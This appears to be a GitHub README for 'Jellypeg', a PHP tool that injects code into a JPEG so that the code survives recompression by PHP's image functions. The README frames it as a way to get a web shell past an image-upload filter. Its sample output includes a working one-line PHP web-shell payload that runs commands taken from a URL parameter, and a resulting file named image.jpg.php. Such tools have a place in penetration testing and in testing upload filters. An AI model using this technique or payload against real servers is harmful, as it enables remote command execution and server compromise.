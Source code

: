 ![alt text](Jellypeg.jpg?raw=true)

# Jellypeg
Tool to inject code into JPEG that has been stuffed through imagecreatefromjpeg and imagejpeg in PHP. One scenario is where you have found somewhere to upload a PHP file via Arbitrary File Upload, but the upload function is designed for image upload and thus runs the data through imagejpeg. This will overwrite the metadata and compress the file and change the data inside; rendering your content useless (your shell, that is). This tool can solve this by finding an image file where a small piece of code survives the compression process. It's important that you analyze a resulting file from the upload process before you do this so that the quality setting is correct. The default is usually 75 but if it's something else then you need to specify that.

# Sample output
```
kali@kali:~/# php jellypeg.php
-=Jellypeg Injector 1.9=-
[+] Usage: php jellypeg.php <width> <height> <quality> <code>
[+] Example: php jellypeg.php 100 100 75 '<?=exec($_GET["c"])?>'
[+] Fetching image (100 X 100) from http://placekitten.com/100/100/
[+] Jumping to end byte
[+] Searching for valid injection point
[+] Done
[+] Result file: image.jpg.php
```
